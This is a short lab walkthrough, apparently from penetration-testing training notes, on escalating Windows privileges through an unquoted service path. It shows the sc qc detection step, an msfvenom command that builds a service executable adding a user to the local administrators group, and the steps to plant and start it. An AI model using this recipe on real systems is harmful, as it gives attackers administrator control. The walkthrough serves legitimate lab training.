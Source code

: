 ## Service Escalation - Unquoted Service Paths

Detection

Windows VM

1. Open command prompt and type: sc qc unquotedsvc
2. Notice that the “BINARY_PATH_NAME” field displays a path that is not confined between quotes.

Exploitation

Kali VM

1. Open command prompt and type: msfvenom -p windows/exec CMD='net localgroup administrators user /add' -f exe-service -o common.exe
2. Copy the generated file, common.exe, to the Windows VM.

Windows VM

1. Place common.exe in ‘C:\Program Files\Unquoted Path Service’.
2. Open command prompt and type: sc start unquotedsvc
3. It is possible to confirm that the user was added to the local administrators group by typing the following in the command prompt: net localgroup administrators

For additional practice, it is recommended to attempt the TryHackMe room Steel Mountain (https://tryhackme.com/room/steelmountain).